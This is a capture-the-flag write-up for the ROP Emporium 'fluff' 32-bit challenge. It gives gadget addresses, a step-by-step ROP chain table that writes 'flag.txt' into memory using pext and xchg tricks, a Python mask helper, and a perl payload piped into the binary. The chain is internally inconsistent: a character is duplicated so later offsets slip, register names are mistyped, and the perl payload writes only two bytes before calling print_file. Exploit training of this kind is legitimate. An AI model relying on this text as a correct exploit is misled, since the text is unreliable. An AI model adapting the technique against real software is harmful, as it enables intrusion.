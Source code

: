 # fluff
The challenge is available [here](https://ropemporium.com/challenge/fluff.html).

## Black-Box Test

## In-depth research

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                                      |
|---------------|-----------------|------------|----------------------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                                              |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed.                |
| pop_bswap_cx        | Gadget          | 0x08048558 | pop ecx;<br />bswap ecx;<br />ret;                                                         |
| pop_bp        | Gadget          | 0x080485bb | pop ebp;<br />ret;                                                                    |
| prepare_dx       | Gadget          | 0x08048543 | mov eax, ebx;<br />mov ebx, 0xb0bababa;<br />pext edx, ebx, eax;<br />mov eax, 0xdeadbeef; ret; |
| exchange_byte | Gadget          | 0x08048555 | xchg BYTE PTR [exc], dl;<br />ret;                                                    |

And the next table describes the ROP chain itself:

| No | Chain Link                        | Note                                                                                                                                                                                                                                                                    |
|----|-----------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1  | 44 garbage bytes                  |                                                                                                                                                                                                                                                                         |
| 2  | pop_bswap_cx, memory4string       | `memory4string` in big-endian.                                                                                                                                                                                                                                          |
| 3  | pop_bp, get_mask("f")             | The function `get_mask` calculates the bit sequence needed<br/>for a register that serves as a mask in the `xchg` instruction<br/>(with a constant value of `0xdeadbeef` on which the mask operates)<br/>so that the operation produces the desired character. In this case, `"f"`. |
| 4  | prepare_dx                        |                                                                                                                                                                                                                                                                         |
| 5  | exchange_byte                     | After this operation, the string will be `"f"`                                                                                                                                                                                                                          |
| 6  | pop_bswap_cx, memory4string+1     | `memory4string+1` in big-endian.                                                                                                                                                                                                                                        |
| 7  | pop_bp, get_mask("l")             |                                                                                                                                                                                                                                                                         |
| 8  | prepare_dx                        |                                                                                                                                                                                                                                                                         |
| 9  | exchange_byte                     | After this operation, the string will be `"fl"`                                                                                                                                                                                                                         |
| 10 | pop_bswap_cx, memory4string+2     | `memory4string+2` in big-endian.                                                                                                                                                                                                                                        |
| 11 | pop_bp, get_mask("a")             |                                                                                                                                                                                                                                                                         |
| 12 | prepare_dx                        |                                                                                                                                                                                                                                                                         |
| 13 | exchange_byte                     | After this operation, the string will be `"fla"`                                                                                                                                                                                                                        |
| 14 | pop_bswap_cx, memory4string+3     | `memory4string+3` in big-endian.                                                                                                                                                                                                                                        |
| 15 | pop_bp, get_mask("a")             |                                                                                                                                                                                                                                                                         |
| 16 | prepare_dx                        |                                                                                                                                                                                                                                                                         |
| 17 | exchange_byte                     | After this operation, the string will be `"fla"`                                                                                                                                                                                                                        |
| 18 | pop_bswap_cx, memory4string+4     | `memory4string+4` in big-endian.                                                                                                                                                                                                                                        |
| 19 | pop_bp, get_mask("g")             |                                                                                                                                                                                                                                                                         |
| 20 | prepare_dx                        |                                                                                                                                                                                                                                                                         |
| 21 | exchange_byte                     | After this operation, the string will be `"flag"`                                                                                                                                                                                                                       |
| 22 | pop_bswap_cx, memory4string+5     | `memory4string+5` in big-endian.                                                                                                                                                                                                                                        |
| 23 | pop_bp, get_mask(".")             |                                                                                                                                                                                                                                                                         |
| 24 | prepare_dx                        |                                                                                                                                                                                                                                                                         |
| 25 | exchange_byte                     | After this operation, the string will be `"flag."`                                                                                                                                                                                                                      |
| 26 | pop_bswap_cx, memory4string+6     | `memory4string+6` in big-endian.                                                                                                                                                                                                                                        |
| 27 | pop_bp, get_mask("t")             |                                                                                                                                                                                                                                                                         |
| 28 | prepare_dx                        |                                                                                                                                                                                                                                                                         |
| 29 | exchange_byte                     | After this operation, the string will be `"flag.t"`                                                                                                                                                                                                                     |
| 30 | pop_bswap_cx, memory4string+7     | `memory4string+7` in big-endian.                                                                                                                                                                                                                                        |
| 31 | pop_bp, get_mask("x")             |                                                                                                                                                                                                                                                                         |
| 32 | prepare_dx                        |                                                                                                                                                                                                                                                                         |
| 33 | exchange_byte                     | After this operation, the string will be `"flag.tx"`                                                                                                                                                                                                                    |
| 34 | pop_bswap_cx, memory4string+8     | `memory4string+8` in big-endian.                                                                                                                                                                                                                                        |
| 35 | pop_bp, get_mask("t")             |                                                                                                                                                                                                                                                                         |
| 36 | prepare_dx                        |                                                                                                                                                                                                                                                                         |
| 37 | exchange_byte                     | After this operation, the string will be `"flag.txt"`                                                                                                                                                                                                                   |
| 38 | print_file, "XXXX", memory4string |                                                                                                                                                                                                                                                                         |



```python
def get_mask(target, value):
    target_bits = bin(ord(target))[2:]
    value_bits  = bin(value)[2:]

    mask_bits   = ''

    while(target_bits):
        if target_bits[-1] == value_bits[-1]:
            mask_bits = '1' + mask_bits
            target_bits = target_bits[:-1]
        else:
            mask_bits = '0' + mask_bits

        value_bits = value_bits[:-1]

    while(value_bits):
        if value_bits[-1] == '0':
            mask_bits = '1' + mask_bits
        else:
            mask_bits = '0' + mask_bits
        value_bits = value_bits[:-1]

    mask = int(mask_bits, 2)
    return mask

for c in "flag.txt":
    print(hex(get_mask(c, 0xb0bababa)), c)
```

```
perl -e 'print "X"x44 . "\xbb\x85\x04\x08" . "\x4b\x4b\x45\x4f" . "\x43\x85\x04\x08" . "\x58\x85\x04\x08" . "\x08\x04\xa0\x18" . "\x55\x85\x04\x08" ."\xbb\x85\x04\x08" . "\xdd\x46\x45\x4f" . "\x43\x85\x04\x08" . "\x58\x85\x04\x08" . "\x08\x04\xa0\x19" . "\x55\x85\x04\x08". "\xd0\x83\x04\x08" . "XXXX" . "\x18\xa0\x04\x08"' | ./fluff32
```